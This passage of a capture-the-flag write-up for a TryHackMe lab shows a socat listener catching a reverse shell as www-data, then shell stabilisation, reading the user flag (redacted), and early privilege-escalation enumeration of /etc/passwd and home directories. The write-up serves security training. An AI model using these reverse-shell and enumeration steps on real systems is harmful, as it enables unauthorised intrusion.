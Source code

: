 ```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443    
2023/01/11 03:39:13 socat[126873] N opening character device "/dev/pts/1" for reading and writing
2023/01/11 03:39:13 socat[126873] N listening on AF=2 0.0.0.0:443
                                                                 2023/01/11 03:39:59 socat[126873] N accepting connection from AF=2 10.10.14.138:34860 on AF=2 10.9.0.253:443
                                                                  2023/01/11 03:39:59 socat[126873] N starting data transfer loop with FDs [5,5] and [7,7]
                                               www-data@incognito:/var/www/html$ 
www-data@incognito:/var/www/html$ export TERM=xterm-256color
www-data@incognito:/var/www/html$ stty rows 22 columns 107
www-data@incognito:/var/www/html$ whoami;hostname;id;ip a
www-data
incognito
uid=33(www-data) gid=33(www-data) groups=33(www-data)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:cb:fe:54:e3:8d brd ff:ff:ff:ff:ff:ff
    inet 10.10.14.138/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2103sec preferred_lft 2103sec
    inet6 fe80::cb:feff:fe54:e38d/64 scope link 
       valid_lft forever preferred_lft forever
www-data@incognito:/var/www/html$ ^C
www-data@incognito:/var/www/html$ 
```

I'm user `www-data`!

**user.txt:**
```shell
www-data@incognito:/var/www/html$ cat /home/tom/user.txt 
{Redacted}
```

## Privilege Escalation

### www-data to root

Let's do some basic enumerations!

**System users:**
```shell
www-data@incognito:/var/www/html$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
tom:x:1000:1001::/home/tom:/bin/bash

www-data@incognito:/var/www/html$ ls -lah /home
total 12K
drwxr-xr-x  3 root root 4.0K Apr 10  2021 .
drwxr-xr-x 24 root root 4.0K Jun  9  2021 ..
drwxr-xr-x  5 tom  tom  4.0K Jun  9  2021 tom
```
